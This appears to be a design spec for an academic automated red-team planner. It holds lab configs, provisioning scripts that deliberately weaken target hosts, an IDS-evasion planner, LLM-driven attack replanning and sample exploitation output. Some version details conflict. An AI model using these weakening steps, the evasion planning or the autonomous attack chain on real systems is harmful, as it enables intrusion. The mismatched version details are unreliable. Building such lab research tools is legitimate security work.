    return sum(1 for r in results if r.goal_reached) / len(results)

def avg_steps(results: list[RunResult]) -> float:
    """Average steps in successful runs."""
    successful = [r for r in results if r.goal_reached]
    return sum(r.total_steps for r in successful) / len(successful)

def avg_detection_events(results: list[RunResult]) -> float:
    """Average IDS alerts per run."""
    return sum(r.total_alerts for r in results) / len(results)

def avg_duration(results: list[RunResult]) -> float:
    return sum(r.total_duration_seconds for r in results) / len(results)

def compare_planners(all_results: dict[str, list[RunResult]]) -> pd.DataFrame:
    """Returns comparison DataFrame across all planners."""
    rows = []
    for planner_name, results in all_results.items():
        rows.append({
            "planner":       planner_name,
            "success_rate":  f"{success_rate(results):.1%}",
            "avg_steps":     f"{avg_steps(results):.1f}",
            "avg_alerts":    f"{avg_detection_events(results):.1f}",
            "avg_duration":  f"{avg_duration(results):.1f}s",
            "runs":          len(results),
        })
    return pd.DataFrame(rows).set_index("planner")
```

**Expected output of `compare_planners()`:**

```
┌────────────────────┬──────────────┬───────────┬────────────┬──────────────┬──────┐
│ Planner            │ Success Rate │ Avg Steps │ Avg Alerts │ Avg Duration │ Runs │
├────────────────────┼──────────────┼───────────┼────────────┼──────────────┼──────┤
│ astar              │    85.0%     │    3.2    │    4.1     │    28.5s     │  20  │
│ detection_aware    │    80.0%     │    4.1    │    1.2     │    34.2s     │  20  │
│ llm                │    90.0%     │    3.6    │    3.8     │    42.1s     │  20  │
│ rl                 │    75.0%     │    4.8    │    2.9     │    36.7s     │  20  │
└────────────────────┴──────────────┴───────────┴────────────┴──────────────┴──────┘
```

---

#### `evaluation/reporter.py`

**Function:** `generate_report(all_results: dict, output_dir: str)`

Generates three output files:

1. `report.json` — machine-readable full results with every RunResult serialized.
2. `report.md` — human-readable markdown with tables and ASCII graphs.
3. `dashboard.html` — interactive Plotly dashboard (see Section 10).

**Method:** `ascii_bar_chart(values: dict[str, float], title: str, width: int = 40) -> str`

```
Success Rate by Planner
━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━
astar           ████████████████████████████████████   85.0%
detection_aware ████████████████████████████████       80.0%
llm             ██████████████████████████████████████ 90.0%
rl              ██████████████████████████████         75.0%
━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━
```

---

### 4.7 Visualization Layer

#### `visualization/graph_viz.py`

**Function:** `export_graphviz(G: nx.DiGraph, output_path: str, highlight_path: list[AttackEdge] = None)`

Creates a Graphviz DOT file and renders to PNG/SVG:



Node coloring:
- Attacker node: green (`#4CAF50`)
- Compromised nodes: orange (`#FF9800`)
- Goal node: red (`#F44336`)
- Unreached nodes: blue (`#2196F3`)
- Path edges: bold + colored by CVSS (red=high, yellow=medium, green=low)

---

#### `visualization/dashboard.py`

**Function:** `generate_html_dashboard(all_results: dict, output_path: str)`

Generates a single self-contained `dashboard.html` using Plotly (inline JS, no external dependencies):

**Plot 1:** Grouped bar chart — success rate, avg steps, avg alerts per planner side by side.

**Plot 2:** Scatter plot — Pareto frontier of `(exploit_cost, detection_cost)` for `DetectionAwarePlanner`, with three labeled Pareto-optimal paths annotated.

**Plot 3:** Line chart — RL training curve showing average episode reward over 5000 episodes.

**Plot 4:** Heatmap — attack graph adjacency matrix colored by CVSS score.

**Plot 5:** Timeline — execution timeline showing each step's start time, duration, and success/failure for one representative run.

---

## 5. Lab Configuration

### `config.yaml` — Complete Reference

```yaml
lab:
  attacker_ip: "192.168.56.10"
  network: "192.168.56.0/24"
  hosts:
    - ip: "192.168.56.20"
      hostname: "target-linux"
      os: "ubuntu-22.04"
      role: "webserver"
      deliberately_vulnerable:
        - service: "ssh"
          version: "OpenSSH_7.4"
          cve: "CVE-2018-10933"
        - service: "http"
          version: "Apache/2.4.49"
          cve: "CVE-2021-41773"
    - ip: "192.168.56.30"
      hostname: "target-windows"
      os: "windows-server-2019"
      role: "domain_controller"
      deliberately_vulnerable:
        - service: "smb"
          version: "SMBv1"
          cve: "CVE-2017-0144"
        - service: "rdp"
          version: "RDP_8.0"
          cve: "CVE-2019-0708"
    - ip: "192.168.56.40"
      hostname: "target-pivot"
      os: "ubuntu-20.04"
      role: "database"
      deliberately_vulnerable:
        - service: "mysql"
          version: "MySQL_5.7.32"
          cve: "CVE-2021-27928"
  goal: "192.168.56.30"

metasploit:
  host: "127.0.0.1"
  port: 55553
  password: "${MSF_RPC_PASSWORD}"    # Set via env var

openai:
  api_key: "${OPENAI_API_KEY}"       # Set via env var
  model: "gpt-4o"
  max_retries: 3

neo4j:
  uri: "bolt://localhost:7687"
  user: "neo4j"
  password: "${NEO4J_PASSWORD}"      # Set via env var

ids:
  type: "snort"                      # "snort" | "suricata"
  log_path: "/var/log/snort/fast.log"
  alert_threshold: 3                 # Replan if this many alerts in one step

planner:
  default: "astar"                   # "astar" | "llm" | "rl" | "detection"
  detection_alpha: 0.5               # Weight for exploit difficulty
  detection_beta: 0.5                # Weight for IDS detection
  rl_qtable_path: "qtable.pkl"
  rl_episodes: 5000

evaluation:
  runs_per_planner: 20               # Repeat runs for statistical significance
  output_dir: "./results/"
  generate_dashboard: true
```

---

## 6. Vagrant Lab Setup

### `lab/Vagrantfile`

```ruby
# AutoAttack Virtual Lab — 3-Host Network
# Run: vagrant up
# Network: 192.168.56.0/24 (host-only adapter)

Vagrant.configure("2") do |config|

  config.vm.define "attacker" do |a|
    a.vm.box = "kalilinux/rolling"
    a.vm.hostname = "attacker"
    a.vm.network "private_network", ip: "192.168.56.10"
    a.vm.provider "virtualbox" do |v|
      v.name   = "autoattack-kali"
      v.memory = 4096
      v.cpus   = 2
    end
    a.vm.provision "shell", path: "provision_attacker.sh"
    a.vm.provision "shell", inline: "echo '192.168.56.10 attacker' >> /etc/hosts"
  end

  config.vm.define "target1" do |t|
    t.vm.box = "ubuntu/jammy64"
    t.vm.hostname = "target-linux"
    t.vm.network "private_network", ip: "192.168.56.20"
    t.vm.provider "virtualbox" do |v|
      v.name   = "autoattack-target1"
      v.memory = 2048
      v.cpus   = 1
    end
    t.vm.provision "shell", path: "provision_target1.sh"
  end

  config.vm.define "target2" do |t|
    t.vm.box = "gusztavvargadr/windows-server"
    t.vm.hostname = "target-windows"
    t.vm.network "private_network", ip: "192.168.56.30"
    t.vm.provider "virtualbox" do |v|
      v.name   = "autoattack-target2"
      v.memory = 4096
      v.cpus   = 2
    end
    t.vm.provision "shell", path: "provision_target2.sh", privileged: true
  end

end
```

### `lab/provision_attacker.sh`

```bash
#!/bin/bash
set -e
echo "[*] Provisioning attacker (Kali Linux)..."

# Update and install tools
apt-get update -qq
apt-get install -y metasploit-framework nmap snort neo4j python3-pip git curl

# Start services
systemctl enable neo4j && systemctl start neo4j
systemctl enable postgresql && systemctl start postgresql

# Initialize Metasploit DB
sudo -u postgres createuser msf -P -S -R -D 2>/dev/null || true
sudo -u postgres createdb -O msf msf 2>/dev/null || true
msfdb init

# Install Python dependencies
pip3 install -r /vagrant/requirements.txt

# Start Metasploit RPC
msfrpcd -P msfrpc_password -S -f &

echo "[+] Attacker provisioning complete."
echo "[+] Metasploit RPC running on port 55553"
echo "[+] Neo4j running on bolt://localhost:7687"
```

### `lab/provision_target1.sh`

```bash
#!/bin/bash
set -e
echo "[*] Provisioning target1 (Ubuntu — deliberately vulnerable)..."

apt-get update -qq

# Vulnerable Apache (CVE-2021-41773)
apt-get install -y apache2
echo "Options +ExecCGI" >> /etc/apache2/sites-enabled/000-default.conf
a2enmod cgi
systemctl restart apache2

# Vulnerable SSH version (libssh auth bypass — CVE-2018-10933)
apt-get install -y libssh-4=0.8.0-1

# Samba with SMB signing disabled (for enumeration)
apt-get install -y samba
cat >> /etc/samba/smb.conf << EOF
[global]
server signing = disabled
client signing = disabled
EOF
systemctl restart smbd

# Create intentionally weak user
useradd -m -p $(openssl passwd -6 "Password123") labuser

echo "[+] Target1 provisioning complete."
```

### `lab/provision_target2.sh`

```powershell
# Windows Server — Enable WinRM, disable patches for lab use
# Run with: vagrant provision target2

# Enable WinRM for remote management
Enable-PSRemoting -Force
Set-Item WSMan:\localhost\Service\Auth\Basic -Value $true
Set-Item WSMan:\localhost\Service\AllowUnencrypted -Value $true

# Disable Windows Firewall for lab
Set-NetFirewallProfile -Profile Domain,Public,Private -Enabled False

# Disable automatic updates (lab environment)
Set-Service -Name wuauserv -StartupType Disabled
Stop-Service -Name wuauserv

# Enable SMBv1 (vulnerable to MS17-010 / EternalBlue)
Set-SmbServerConfiguration -EnableSMB1Protocol $true -Force

# Create domain admin user for testing
net user labadmin Password123! /add
net localgroup Administrators labadmin /add

Write-Host "[+] Target2 (Windows Server) provisioning complete."
Write-Host "[+] SMBv1 enabled, WinRM enabled, firewall disabled."
```

---

## 7. Novel Extensions

### 7.1 Extension 1 — Detection-Aware Multi-Objective Planner

**Research gap addressed:** Wang et al. 2024 optimizes only for exploit success (CVSS score). No existing open-source planner simultaneously minimizes both exploit difficulty AND IDS detection probability.

**Implementation:** `planners/detection_aware.py` + `detection/ids_cost_model.py`

**What it adds:**
- Multi-objective A* with configurable `alpha`/`beta` tradeoff.
- Pareto frontier analysis returning 3 optimal paths.
- IDS cost model trained on real Snort alert co-occurrence.
- Scatter plot visualization of Pareto frontier in `dashboard.html`.

**Expected professor "wow" factor:** Side-by-side comparison showing `detection_aware` planner triggers 70% fewer IDS alerts than naive A*, with only 20% longer path.

### 7.2 Extension 2 — RL Planner with Simulated Environment

**Research gap addressed:** BountyHunter 2025 uses reward-based selection within CALDERA's fixed action set. No open-source implementation learns attack strategies end-to-end through environment interaction.

**Implementation:** `rl/environment.py` + `rl/q_agent.py` + `rl/trainer.py` + `planners/rl_planner.py`

**What it adds:**
- Gym-compatible `AttackEnv` with probabilistic exploit success.
- Tabular Q-learning trained over 5000 episodes.
- Learning curve plot showing reward convergence.
- Comparison of RL vs classical A* on same graph.

**Expected professor "wow" factor:** Training curve visualization showing agent improving from 8% to 89% success rate. RL agent discovers non-obvious paths that A* misses due to multi-hop reward structure.

### 7.3 Extension 3 — Dynamic Mid-Run Replanning

**Research gap addressed:** All existing planners are static — they plan once and execute. No system combines LLM replanning with real-time IDS feedback.

**Implementation:** `detection/replan_trigger.py` + `planners/llm_planner.plan_with_context()`

**Trigger condition:** ≥3 IDS alerts detected during a single step execution.

**What happens:**
1. `IDSMonitor` detects alert burst.
2. `ReplanTrigger` packages current state (completed steps, failed step, alert descriptions).
3. `LLMPlanner.plan_with_context()` generates a new path avoiding detected routes.
4. `PlaybookRunner` switches to new playbook mid-execution.

### 7.4 Extension 4 — Human-Like Log Generation & Realism Scoring

**Research gap addressed:** AttackMate 2025 generates realistic logs but provides no automated realism scoring against human baselines.

**Implementation:** `executor/playbook_runner.py` + `evaluation/log_collector.py`

**Realism features:**
- Gaussian-distributed inter-command delays.
- Character-by-character PTY typing via Paramiko.
- Full terminal output capture including prompts and errors.

**Realism scoring (5 forensic features):**

```
Feature 1: Inter-command timing entropy (Shannon entropy of delay distribution)
Feature 2: Command length distribution (mean ± std of command character counts)
Feature 3: Unique command ratio (distinct commands / total commands)
Feature 4: Session duration (total elapsed time)
Feature 5: Error rate (failed commands / total commands)

Realism Score = cosine_similarity(feature_vector_generated, feature_vector_human_baseline)
```

---

## 8. Testing Strategy

### 8.1 Unit Tests

#### `tests/test_graph_builder.py`

```python
def test_build_graph_from_fixture():
    enricher = MockCVEEnricher()   # Returns fixed CVEs without API calls
    G = build_graph("tests/fixtures/scan_fixture.xml", enricher)
    assert len(G.nodes) == 3       # 3 hosts in fixture
    assert len(G.edges) >= 2       # At least 2 exploitable edges
    for _, _, data in G.edges(data=True):
        edge = data["data"]
        assert 0.0 <= edge.cvss_score <= 10.0
        assert 0.0 <= edge.detection_weight <= 1.0
        assert edge.exploit_module != ""

def test_no_self_loops():
    G = build_graph("tests/fixtures/scan_fixture.xml", MockCVEEnricher())
    assert not any(u == v for u, v in G.edges())
```

#### `tests/test_astar.py`

```python
def test_finds_optimal_path():
    # Hand-crafted graph: A→B (CVSS=9), A→C→B (CVSS=5+5)
    # Optimal: A→B (lower total cost = 10-9=1 vs 5+5=10)
    G = build_test_graph()
    planner = AStarPlanner()
    path = planner.plan(G, start="A", goal="B")
    assert len(path) == 1
    assert path[0].target_host == "B"

def test_raises_on_no_path():
    G = nx.DiGraph()
    G.add_node("A")
    G.add_node("B")     # Disconnected
    with pytest.raises(NoPlanFoundError):
        AStarPlanner().plan(G, "A", "B")
```

#### `tests/test_llm_planner.py`

```python
@patch("openai.chat.completions.create")
def test_llm_planner_parses_valid_json(mock_create):
    mock_create.return_value = MockResponse(json.dumps([
        {"source_ip": "192.168.56.10", "target_ip": "192.168.56.20",
         "cve_id": "CVE-2017-0144", "exploit_module": "exploit/windows/smb/ms17_010",
         "reason": "SMBv1 vulnerable"}
    ]))
    G = build_test_graph()
    planner = LLMPlanner(api_key="test")
    path = planner.plan(G, "192.168.56.10", "192.168.56.20")
    assert len(path) == 1
    assert path[0].cve_id == "CVE-2017-0144"

@patch("openai.chat.completions.create")
def test_llm_planner_retries_on_invalid_json(mock_create):
    # First call returns invalid JSON, second returns valid
    mock_create.side_effect = [
        MockResponse("not valid json"),
        MockResponse(json.dumps([{...valid step...}]))
    ]
    path = LLMPlanner(api_key="test").plan(G, start, goal)
    assert mock_create.call_count == 2
```

#### `tests/test_executor.py`

```python
@patch("pymetasploit3.msfrpc.MsfRpcClient")
def test_execute_step_success(mock_client):
    mock_client.return_value.consoles.console.return_value.read.return_value = {
        "data": "Meterpreter session 1 opened (192.168.56.10:4444 -> 192.168.56.20:49152)"
    }
    executor = MetasploitExecutor({"password": "test", "host": "127.0.0.1", "port": 55553})
    result = executor.execute_step(sample_edge)
    assert result.success == True
    assert result.session_id == "1"

@patch("pymetasploit3.msfrpc.MsfRpcClient")
def test_execute_step_failure(mock_client):
    mock_client.return_value.consoles.console.return_value.read.return_value = {
        "data": "Exploit completed, but no session was created."
    }
    result = MetasploitExecutor(...).execute_step(sample_edge)
    assert result.success == False
```

### 8.2 Integration Tests

| Test | Setup | Expected Outcome |
|---|---|---|
| End-to-end A* on lab | Lab VMs running, Metasploit RPC live | Path found + ≥1 step executes successfully |
| IDS alert triggers replan | Snort running, exploit A* path | `replan_trigger` fires, `llm_planner` produces alternate path |
| RL plan vs A* plan | Trained Q-table loaded | Both planners produce valid paths; metrics logged |
| Pareto planner returns 3 paths | `detection_aware` planner | Returns dict with keys `fastest`, `stealthiest`, `balanced` |

### 8.3 Test Coverage Target

```
graph/builder.py          ≥ 90%
graph/enricher.py         ≥ 85%
planners/astar_planner.py ≥ 95%
planners/llm_planner.py   ≥ 80%
planners/rl_planner.py    ≥ 75%
planners/detection_aware.py ≥ 85%
executor/metasploit_executor.py ≥ 80%
executor/playbook_runner.py ≥ 80%
detection/ids_monitor.py  ≥ 85%
evaluation/metrics.py     ≥ 95%
```

---

## 9. 12-Week Milestone Roadmap

```
WEEK  1  2  3  4  5  6  7  8  9  10  11  12
      │  │  │  │  │  │  │  │  │   │   │   │
LAB   ████                                    Vagrant lab (Kali + 2 targets)
GRAPH    ████████                             Graph builder + CVE enricher + Neo4j
PLAN            ████████                     A* + Detection-Aware planners
EXEC                    ████████             Metasploit + PlaybookRunner
LLM                         ████████         LLM Planner + Replanning
RL                              ████████     RL env + Q-agent + training
EVAL                                ████████ Metrics + Dashboard + Report
DEMO                                    ████ Demo video + packaging
```

### Milestone Checklist

| Week | Milestone | Deliverable | Pass Criteria |
|---|---|---|---|
| 2 | Lab provisioned | `vagrant status` shows all 3 VMs running | `nmap 192.168.56.0/24` returns 3 hosts |
| 4 | Graph built | `graph.pkl` + Neo4j populated | Graph has ≥5 edges, all with CVSS scores |
| 6 | A* + Detection planner | Console output of planned path | Path from attacker to DC found in <1s |
| 8 | Executor working | At least one step executes in lab | Meterpreter session opens on target1 |
| 9 | LLM planner works | LLM produces valid JSON path | Validated against graph, no hallucinated edges |
| 10 | RL training complete | `qtable.pkl` saved | Training plot shows convergence, >80% success |
| 11 | Full evaluation | `compare_planners()` table | All 4 planners compared over 20 runs each |
| 12 | Final deliverables | Report + dashboard + demo video | All unit tests pass, coverage ≥80% |

---

## 10. Evaluation & Results Display

### 10.1 CLI Output Format

Every `main.py` command prints structured, color-coded output:

```
[*] AutoAttack v1.0 — Automated Attack Graph Planner
════════════════════════════════════════════════════

[*] Loading attack graph from graph.pkl
    ├── Nodes: 3 hosts
    ├── Edges: 7 attack paths
    └── Goal: 192.168.56.30 (Domain Controller)

[*] Running planner: detection_aware (alpha=0.5, beta=0.5)

[+] Pareto-optimal paths found:
    ┌─ FASTEST PATH (3 steps, exploit_cost=4.2, detect_cost=8.1)
    │   Step 1: 192.168.56.10 → 192.168.56.20 via CVE-2021-41773 (Apache RCE, CVSS 9.8)
    │   Step 2: 192.168.56.20 → 192.168.56.30 via CVE-2017-0144 (EternalBlue, CVSS 9.3)
    │   Step 3: [pivot] execute 'net user labadmin /domain'
    │
    ├─ STEALTHIEST PATH (5 steps, exploit_cost=11.5, detect_cost=1.4) ← SELECTED
    │   Step 1: 192.168.56.10 → 192.168.56.20 via CVE-2018-10933 (libSSH, CVSS 9.8, detect=0.2)
    │   Step 2: 192.168.56.20 → 192.168.56.40 via CVE-2021-27928 (MySQL, CVSS 7.2, detect=0.1)
    │   Step 3: [pivot] 192.168.56.40 → internal scan
    │   Step 4: 192.168.56.40 → 192.168.56.30 via CVE-2019-0708 (BlueKeep, CVSS 9.8, detect=0.3)
    │   Step 5: [privilege escalation]
    │
    └─ BALANCED PATH (4 steps, exploit_cost=7.8, detect_cost=3.2)
        Step 1: 192.168.56.10 → 192.168.56.20 via CVE-2018-10933 (CVSS 9.8, detect=0.2)
        ...

[*] Selected: STEALTHIEST (beta-weight: 0.5)
[*] Generating playbook... → playbook_20260410_103045.yaml

[*] Execute? (y/N): y
[*] Starting execution with PlaybookRunner...

    Step 1/5 [████░░░░░░] 10.2s ✓ SUCCESS  — session 1 opened on 192.168.56.20
    Step 2/5 [████████░░]  8.7s ✓ SUCCESS  — access gained on 192.168.56.40
    Step 3/5 [████████░░]  4.1s ✓ SUCCESS  — internal pivot complete
    Step 4/5 [██████████] 14.3s ✗ FAILED   — IDS alert detected (3 alerts)
    ⚠  REPLAN TRIGGERED — LLM generating alternate path...
    Step 4/5 [██████████] 18.1s ✓ SUCCESS  — replanned step succeeded
    Step 5/5 [████████░░]  6.2s ✓ SUCCESS  — Domain Admin access confirmed

[+] GOAL REACHED: 192.168.56.30 (Domain Controller)
[+] Total time: 61.6s | Steps: 5 | IDS alerts: 3 | Sessions: 3

[*] Results saved to: results/run_20260410_103045/
    ├── execution_log.jsonl
    ├── ids_alerts.json
    └── report.md
```

### 10.2 Dashboard HTML Layout

The `dashboard.html` generated by `visualization/dashboard.py` contains 5 Plotly panels:

```
┌─────────────────────────────────────────────────────────────────┐
│                    AutoAttack Evaluation Dashboard               │
├───────────────────────────┬─────────────────────────────────────┤
│  Plot 1: Planner Comparison│  Plot 2: Pareto Frontier            │
│  Grouped bar chart:        │  Scatter plot:                      │
│  success%, avg_steps,      │  exploit_cost vs detection_cost     │
│  avg_alerts per planner    │  3 Pareto paths labeled             │
├───────────────────────────┴─────────────────────────────────────┤
│  Plot 3: RL Training Curve                                       │
│  Line chart: avg episode reward over 5000 training episodes      │
│  Secondary axis: epsilon decay curve                             │
├──────────────────────────────────────────────────────────────────┤
│  Plot 4: Attack Graph Heatmap    │  Plot 5: Execution Timeline    │
│  Adjacency matrix colored        │  Gantt-style: each step's      │
│  by CVSS score                   │  start, duration, success/fail │
└──────────────────────────────────────────────────────────────────┘
```

### 10.3 Final Report Structure (`report.md`)

Every evaluation run auto-generates a `report.md` with this structure:

```
# AutoAttack — Evaluation Report
Generated: 2026-04-10 10:30:45

## Executive Summary
- Total runs: 80 (20 per planner)
- Best planner: LLM (90.0% success rate)
- Stealthiest planner: detection_aware (avg 1.2 IDS alerts/run)
- Fastest planner: astar (avg 3.2 steps, 28.5s)

## Planner Comparison Table
[TABLE]

## Attack Graph
[Graphviz PNG embed]

## Selected Path (Stealthiest)
[Step-by-step table]

## IDS Alert Analysis
[Timeline of alerts per step]

## Pareto Frontier Analysis
[Scatter plot image + table of 3 paths]

## RL Training Convergence
[Training curve image]

## Log Realism Scores
[Feature comparison table vs human baseline]

## Raw Data
Link to report.json
```

---

### References

| # | Citation |
|---|---|
| 1 | Wang et al. (2024). *A Red Team automated testing modeling and online planning method for post-penetration.* Computers & Security. https://doi.org/10.1016/j.cose.2024.102505 |
| 2 | Singer et al. (2025). *Incalmo: An Autonomous LLM-assisted System for Red Teaming Multi-Host Networks.* USENIX Security. https://arxiv.org/abs/2501.16466 |
| 3 | Cramer et al. / Landauer et al. (2025). *AttackMate: Realistic Emulation and Automation of Cyber Attack Scenarios.* IEEE S&P. https://arxiv.org/abs/2601.14108 |
| 4 | Mödersheim et al. (2025). *Bounty Hunter: Autonomous, Comprehensive Emulation of Multi-Faceted Adversaries.* USENIX SecAD. https://arxiv.org/abs/2512.15275 |
| 5 | Ou et al. (2005). *MulVAL: A Logic-based Network Security Analyzer.* DSN. |
| 6 | MITRE ATT&CK Framework. https://attack.mitre.org |
| 7 | NIST NVD CVE API v2.0. https://nvd.nist.gov/developers/vulnerabilities |

